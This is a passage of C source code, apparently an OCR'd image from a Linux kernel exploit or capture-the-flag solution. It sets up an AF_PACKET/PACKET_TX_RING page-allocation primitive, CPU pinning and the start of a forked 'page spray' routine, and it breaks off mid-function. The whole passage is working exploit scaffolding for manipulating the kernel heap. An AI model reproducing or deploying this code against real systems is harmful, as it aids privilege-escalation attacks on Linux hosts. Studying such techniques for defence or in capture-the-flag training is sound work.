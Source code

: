 ```c

size_t socket_fd[0x1000];
struct request_dev{
    size_t index;
    size_t size;
    size_t buf;
};
enum request_socket_page_cmd
{
    alloc_page,
    free_page,
    exit_page,
};

void bind_core(int core) {
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
}

struct request
{
    enum request_socket_page_cmd cmd;
    size_t idx;

};

struct tpacket_req{
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};
enum tpacket_versions {
    TPACKET_V1,
    TPACKET_V2,
    TPACKET_V3,
};
int alloc_pages_via_sock(uint32_t size, uint32_t n){
    struct tpacket_req req;
    int32_t socketfd, version;

    /* Create the AF_PACKET socket */
    socketfd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    version = TPACKET_V1;
    setsockopt(socketfd, SOL_PACKET, PACKET_VERSION, &version, sizeof(version));
    memset(&req, 0, sizeof(req));
    req.tp_block_size = size;
    req.tp_block_nr = n;
    req.tp_frame_size = 4096;
    req.tp_frame_nr = (req.tp_block_size * req.tp_block_nr)/req.tp_frame_size;
    setsockopt(socketfd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req));
    return socketfd;
}

size_t socketfds[0x500];
void socker_page_spray_prepare()
{   puts("start fork");
    if(!fork())
    {   
        uid_t uid=getuid();
```